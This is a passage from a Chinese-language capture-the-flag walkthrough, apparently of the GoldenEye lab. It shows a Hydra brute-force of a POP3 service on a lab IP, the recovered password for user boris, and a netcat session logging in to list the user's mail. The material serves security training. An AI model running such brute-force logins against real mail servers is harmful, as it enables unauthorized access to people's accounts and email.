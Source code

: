 ![](images/2024-04-03-19-23-01.png)
得到如上信息
这里的信息其实偶知道了
那么boris作为一个用户名，就可以拿去爆破一下pop3
使用默认密码InvincibleHack3r登录失败
开始hydra爆破
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -L users -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.158.21 pop3
[55007][pop3] host: 10.10.158.21   login: boris   password: secret1!
```
得到用户及密码
login: boris   password: secret1!

成功登录，看下邮件
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.158.21 55007
(UNKNOWN) [10.10.158.21] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
```